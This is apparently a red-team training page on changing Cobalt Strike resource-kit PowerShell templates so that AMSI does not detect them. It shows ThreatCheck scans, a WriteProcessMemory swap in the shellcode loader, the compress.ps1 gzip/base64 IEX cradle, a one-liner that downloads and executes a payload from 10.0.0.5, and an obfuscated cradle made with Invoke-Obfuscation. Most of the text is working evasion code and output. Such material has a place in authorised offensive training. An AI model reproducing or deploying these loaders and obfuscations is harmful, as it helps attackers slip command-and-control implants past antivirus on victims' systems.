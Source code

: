 
The other type of stage0 template that Cobalt Strike provides are for script-based payloads such as PowerShell.  Where the artifact kit is used to modify the compiled templates, the resource kit is used to modify the script templates.  [AMSI](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) is the primary concern when it comes to PowerShell because it can detect scripts running in memory.

Let's begin by generating a new set of resources without changing anything. The build script for the resource kit only requires an output directory.

```powershell
attacker@DESKTOP-FGSTPS7:/mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource$ ./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
[Resource Kit] [+] Copy the resource files
[Resource Kit] [+] Generate the resources.cna from the template file.
[Resource Kit] [+] The resource kit files are saved in '/mnt/c/Tools/cobaltstrike/custom-resources'
```

```powershell
PS C:\Tools\cobaltstrike\custom-resources> ls

    Directory: C:\Tools\cobaltstrike\custom-resources

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        19/03/2025     13:24            205 compress.ps1
-a----        19/03/2025     13:24           6691 resources.cna
-a----        19/03/2025     13:24            830 template.exe.hta
-a----        19/03/2025     13:24           2719 template.hint.x64.ps1
-a----        19/03/2025     13:24           2835 template.hint.x86.ps1
-a----        19/03/2025     13:24            197 template.psh.hta
-a----        19/03/2025     13:24            635 template.py
-a----        19/03/2025     13:24           1017 template.vbs
-a----        19/03/2025     13:24           2362 template.x64.ps1
-a----        19/03/2025     13:24           2482 template.x86.ps1
-a----        19/03/2025     13:24           3856 template.x86.vba
```

####  template.x64.ps1

This template is used to generate 64-bit stageless PowerShell payloads for workflows such as `jump winrm64`.  Scanning it with TheatCheck's AMSI engine shows that it gets detected even without weaponised shellcode being patched into it.

```powershell
PS C:\Tools\cobaltstrike\custom-resources> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
[+] Target file size: 2364 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x85B
0000075B   28 66 75 6E 63 5F 67 65  74 5F 70 72 6F 63 5F 61   (func_get_proc_a
0000076B   64 64 72 65 73 73 20 6B  65 72 6E 65 6C 33 32 2E   ddress kernel32.
0000077B   64 6C 6C 20 56 69 72 74  75 61 6C 41 6C 6C 6F 63   dll VirtualAlloc
0000078B   29 2C 20 28 66 75 6E 63  5F 67 65 74 5F 64 65 6C   ), (func_get_del
0000079B   65 67 61 74 65 5F 74 79  70 65 20 40 28 5B 49 6E   egate_type @([In
000007AB   74 50 74 72 5D 2C 20 5B  55 49 6E 74 33 32 5D 2C   tPtr], [UInt32],
000007BB   20 5B 55 49 6E 74 33 32  5D 2C 20 5B 55 49 6E 74    [UInt32], [UInt
000007CB   33 32 5D 29 20 28 5B 49  6E 74 50 74 72 5D 29 29   32]) ([IntPtr]))
000007DB   29 0A 09 24 76 61 72 5F  62 75 66 66 65 72 20 3D   )..$var_buffer =
000007EB   20 24 76 61 72 5F 76 61  2E 49 6E 76 6F 6B 65 28    $var_va.Invoke(
000007FB   5B 49 6E 74 50 74 72 5D  3A 3A 5A 65 72 6F 2C 20   [IntPtr]::Zero,
0000080B   24 76 5F 63 6F 64 65 2E  4C 65 6E 67 74 68 2C 20   $v_code.Length,
0000081B   30 78 33 30 30 30 2C 20  30 78 34 30 29 0A 09 0A   0x3000, 0x40)...
0000082B   09 5B 53 79 73 74 65 6D  2E 52 75 6E 74 69 6D 65   .[System.Runtime
0000083B   2E 49 6E 74 65 72 6F 70  53 65 72 76 69 63 65 73   .InteropServices
0000084B   2E 4D 61 72 73 68 61 6C  5D 3A 3A 43 6F 70 79 28   .Marshal]::Copy(
[*] Run time: 0.93s
```

These files are significantly easier to analyse for us because they're just text, so we can open them in a tool like PowerShell ISE or VS Code and find the offending portion.  In this case, it seems to be alerting on line 32, which is where the .NET [Marshal.Copy](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy) method is being called to copy the Beacon shellcode into memory.

![[Pasted image 20250727224729.png]]

We can remove this altogether and replace it with a call to the native [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) API instead.

```powershell
$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll WriteProcessMemory), (func_get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool])))
$ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)
```

Now, no threat is found.

```powershell
PS C:\Tools\cobaltstrike\custom-resources> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
[+] No threat found!
[*] Run time: 0.19s
```

As with the artifact kit, we need to load `resources.cna` into the client before these new resources will be used.

####  compress.ps1

This script is used in places like when hosting a PowerShell payload via Cobalt Strike's Scripted Web Delivery attack.  It will take `template.[x64/x86].ps1` depending on the payload architecture, GZIP compresses and base64 encodes it, then patches it into `compress.ps1`.

```powershell
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

ThreatCheck will not detect this template by itself.

```powershell
PS C:\Tools\cobaltstrike\custom-resources> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\compress.ps1 -e amsi
status value: AmsiResultNotDetected
[+] No threat found!
[*] Run time: 0.18s
```

However, if we host a payload using the scripted web delivery and try to execute it, then it will be detected.

```powershell
PS C:\Users\Attacker> IEX ((new-object net.webclient).downloadstring('http://10.0.0.5/a'))
IEX : At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```

A neat way to get around this is using old-fashioned obfuscation.  First, import Daniel Bohannon's [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) script.

```powershell
PS C:\Users\Attacker> ipmo C:\Tools\Invoke-Obfuscation\Invoke-Obfuscation.psd1
PS C:\Users\Attacker> Invoke-Obfuscation
Invoke-Obfuscation>
```

The first thing we do is set the script block to be that of compress.ps1.

```powershell
Invoke-Obfuscation> SET SCRIPTBLOCK '$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Then we can apply any of the built-in obfuscations we like.  The only one we can't really do is string obfuscation on the `"%%DATA%%"` placeholder because Cobalt Strike relies on this to patch the shellcode into the correct spot.

Using token obfuscations, I ended up with the following:

```powershell
SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
```

Simply replace the content in `compress.ps1`, then host and test a new payload.

![[Pasted image 20250727225219.png]]

####  Multiple iterations

> ThreatCheck can only identify one 'bad part' of a file at a time.  It's common to patch out one detection, run ThreatCheck again, and find that a completely different one has popped up.  This is just the nature of the beast, and we just have to iterate over this process until all the known signatures have been removed.